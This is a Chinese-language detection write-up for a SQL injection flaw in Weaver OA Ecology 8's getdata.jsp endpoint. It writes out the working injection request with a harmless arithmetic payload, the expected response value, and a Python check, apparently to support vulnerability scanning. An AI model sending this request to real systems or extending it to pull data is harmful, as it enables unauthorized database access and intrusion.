

# 泛微OA Ecology 8 SQL注入漏洞（ecology-v8-sqli）检测说明

## 漏洞简介

泛微OA Ecology 8 存在SQL注入漏洞，攻击者可通过GET请求注入恶意SQL语句，进而获取数据库敏感信息、篡改数据，甚至以管理员权限执行未授权操作。

## 影响范围

- 产品：泛微OA Ecology 8
- CVE编号：无（社区编号 ecology-v8-sqli）
- 危害等级：Critical

## 漏洞原理

系统对`/js/hrm/getdata.jsp`接口的`sql`参数未做有效过滤，攻击者可直接拼接SQL语句，造成注入。

## 利用方式与攻击流程

1. 攻击者构造带有SQL注入payload的GET请求，利用`sql`参数执行任意SQL。
2. 服务器端未对参数进行安全处理，直接拼接执行SQL。
3. 数据库执行恶意SQL，返回特征数据。
4. 攻击者分析响应内容，确认漏洞存在。

## 探测原理与流程

### 探测请求的构造

```http
GET /js/hrm/getdata.jsp?cmd=getSelectAllId&sql=select+547653*865674+as+id HTTP/1.1
Host: target.com
```

- `sql`参数注入了`select 547653*865674 as id`，用于判断是否存在注入点。

### 预期响应与交互

- 响应体需包含`474088963122`（即547653*865674的结果），表明SQL语句被执行。
- HTTP状态码为200。

### 判定逻辑

```python
def is_vulnerable(response):
    if '474088963122' in response.text and response.status_code == 200:
        return True
    return False
```

### 检测流程Mermaid图



## 参考链接

- [PeiQi文库-泛微OA V8 SQL注入漏洞](http://wiki.peiqi.tech/PeiQi_Wiki/OA%E4%BA%A7%E5%93%81%E6%BC%8F%E6%B4%9E/%E6%B3%9B%E5%BE%AEOA/%E6%B3%9B%E5%BE%AEOA%20V8%20SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.html) 